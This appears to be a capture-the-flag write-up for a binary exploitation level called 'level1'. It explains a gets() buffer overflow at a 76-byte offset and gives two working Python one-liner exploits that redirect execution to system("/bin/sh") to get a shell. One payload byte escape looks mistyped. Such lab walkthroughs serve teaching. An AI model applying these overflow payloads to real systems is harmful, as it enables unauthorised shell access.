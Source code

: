 # level1

The `gets()` on the buffer allows us to do a buffer overflow

There is a function `run`, that you can find with `gdb> info function`, inside there is a `"/bin/sh"` string and a call to `system` function

We can find the right offset with a [Buffer OverFlow Pattern Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/): we get `76`

Thus we can jump inside `run()` and call `system("/bin/sh")`:

```bash
(python -c "print 'A' * 76 + '\x72\x84\x04\x08'" ; cat ) | ./level1 # 0x08048472
```

or

You can call `system` directly:
```bash
(python -c "print 'A' * 76 + '\x60\x83\04\x08' + 'DUMM' + '\x84\x85\x04\x08'"; cat) | ./level1
```
